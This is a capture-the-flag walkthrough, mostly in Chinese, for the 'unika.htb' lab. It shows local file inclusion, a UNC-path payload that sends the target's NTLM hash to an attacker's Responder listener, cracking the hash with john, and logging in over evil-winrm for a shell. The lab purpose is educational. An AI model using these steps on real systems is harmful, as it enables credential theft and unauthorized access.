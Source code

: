 **SUBMIT FLAG**

Steps:

edit /etc/hosts:

`target-ip  unika.htb`

尝试LFI(Local File Inclusion)，爆出具体的路径

![](https://images.amplenote.com/a13d8a98-2f3f-11ed-ab02-c2af19d2d6e3/88538f07-e81a-409c-a293-fe36ae44e07a.png)

验证下路径是否正确，查看hosts文件

![](https://images.amplenote.com/a13d8a98-2f3f-11ed-ab02-c2af19d2d6e3/7c4d5417-7768-45a0-93e6-ea421327738e.png)

使用responder来监听: `sudo responder -I tun0`

然后访问 http://unika.htb/?page=//\[Your_tun0_IP\]/anything

就会获取到hash

![](https://images.amplenote.com/a13d8a98-2f3f-11ed-ab02-c2af19d2d6e3/9ab430bd-0840-42a7-9a12-200212f5935d.png)

把hash保存下来，`echo "Admin....." >hash.txt`

使用john来破解，`john --wordlist=/usr/share/wordlists/rockyou.txt  hash.txt`

![](https://images.amplenote.com/a13d8a98-2f3f-11ed-ab02-c2af19d2d6e3/ac2f1a3d-1bce-4d95-9035-24990276422c.png)

接下来开始用nmap扫描，注意该lab有速度检测，建议使用T4速度：

虽然没有扫描出winRM端口，但通过Task 10，谷歌下可以知道说的是winRM，默认端口就是5985

![](https://images.amplenote.com/a13d8a98-2f3f-11ed-ab02-c2af19d2d6e3/9fff90d4-11d7-44b4-993d-b5bc2cf4e614.png)

之后使用evil-winrm工具，即可获取到powershell

![](https://images.amplenote.com/a13d8a98-2f3f-11ed-ab02-c2af19d2d6e3/0265865a-662f-47ec-a065-aad699bbaebd.png)

之后去Users\\mike\\Desktop文件夹下面，得到flag

---

### **Note:**
Ref: 

[Auto_Wordlists/file_inclusion_windows.txt at main · carlospolop/Auto_Wordlists (github.com)](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt) 

[Windows 远程管理 - Win32 apps | Microsoft Docs](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) 

[Windows远程管理的安装和配置 - Win32 apps | Microsoft Docs](https://morgansimonsen.com/2009/12/10/winrm-and-tcp-ports/#:\~:text=WinRM%2C%20or%20Windows%20Remote%20Management%2C%20is%20an%20HTTP,listens%20for%20local%20requests%20on%20TCP%20port%2047001.) 

[NT LAN Manager - Wikipedia](https://en.wikipedia.org/wiki/NT_LAN_Manager) 


[^1]: Windows New Technology LAN Manager (NTLM)